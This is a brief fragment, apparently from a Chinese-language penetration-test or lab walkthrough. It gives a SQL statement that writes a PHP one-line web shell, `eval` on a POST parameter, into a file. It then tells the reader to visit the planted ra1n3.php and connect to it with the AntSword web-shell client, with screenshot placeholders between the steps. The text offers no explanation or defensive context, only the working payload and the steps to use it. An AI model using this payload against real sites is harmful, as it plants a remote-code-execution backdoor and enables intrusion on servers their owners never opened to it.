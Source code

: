```
SELECT "<?php @eval($_POST['ra1n3']);?>"
```

![image-20250405223235106](./assets/image-20250405223235106.png)



访问ra1n3.php

![image-20250405223253992](./assets/image-20250405223253992.png)



蚁剑连接

![image-20250405223357388](./assets/image-20250405223357388.png)
